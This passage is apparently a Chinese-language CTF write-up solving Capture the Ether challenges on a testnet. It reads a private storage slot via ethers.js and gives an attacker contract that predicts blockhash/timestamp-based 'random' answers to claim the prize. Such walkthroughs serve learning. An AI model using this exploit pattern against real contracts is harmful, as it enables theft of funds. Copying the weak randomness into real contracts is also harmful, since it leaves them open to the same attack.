 除此之外, 还有另外一种解题方法, 去通过拿存储值的方式, 直接拿answer这个值, 虽然他不是public的, 但是也是存储在区块链里的

```solidity
const provider = new ethers.providers.JsonRpcProvider("https://ropsten.infura.io/v3/xxxxxxxxxxxxxxxx")
const end = await provider.getStorageAt("0x41689832B8301c47A9aBB2e3bdAaa756F84C1237", 0);
console.log(end)
```

返回Check , 完成✅

---

###### Guess the new number

这个题更难一些, 这里的`answer`不是固定的, 每次发起 guess 这笔tx时, answer会自动计算值, 核心原理和上一题一样, 只不过 在这里, 我们没有办法确定 `now` 这个具体的值, 因此 `走一层合约, 再发起tx是不错的原则` ,部署完 `attacker` 合约之后, 调用`attack`函数的时候, 记得需要发送1ETH

```solidity
pragma solidity ^0.4.21;
contract GuessTheNewNumberChallenge {
    function GuuessTheNewNumberChallenge() public payable {
        require(msg.value == 1 ether);
    }
    function isComplete() public view returns (bool) {
        return address(this).balance == 0;
    }
    function guess(uint8 n) public payable {
        require(msg.value == 1 ether);
        uint8 answer = uint8(keccak256(blockhash(block.number - 1), now));
        if (n == answer) {
            msg.sender.transfer(2 ether);
        }
    }
}

contract attacker {
    function attack() public payable {
        uint8 result = uint8(keccak256(blockhash(block.number - 1), now));
        GuessTheNewNumberChallenge target = GuessTheNewNumberChallenge(0x2fE75b0259D2fB1621A9508Be2De4aeEF306E519);
        target.guess.value(1 ether)(result);
    }
    function () public payable {
    }
}
```

返回Check, 完成✅

---

###### Predict the future

这个题的核心在于 先自己选择一个 [0,9] 之内的整数 锁进去, 然后 再来执行 settle 函数, 其中answer的值的计算方式和上面计算方式是一样的, 只不过最后 进行模10运算, `uint8 answer = uint8(keccak256(block.blockhash(block.number - 1), now)) % 10;` 同理, 我们这个题也选用走一层合约的方式去解决. 
